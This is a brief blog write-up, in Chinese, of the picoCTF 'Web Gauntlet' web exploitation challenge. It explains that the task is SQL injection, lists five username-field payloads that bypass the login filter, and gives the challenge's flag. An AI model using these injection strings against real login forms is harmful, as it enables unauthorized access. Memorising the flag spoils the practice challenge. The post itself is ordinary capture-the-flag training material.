 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

```
1. 'admin';--
2. 'admin';0x2d2d
3. 'admin';0x2d2d
4. ad'||'min';0x2d2d
5. ad'||'min';0x2d2d
```

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}
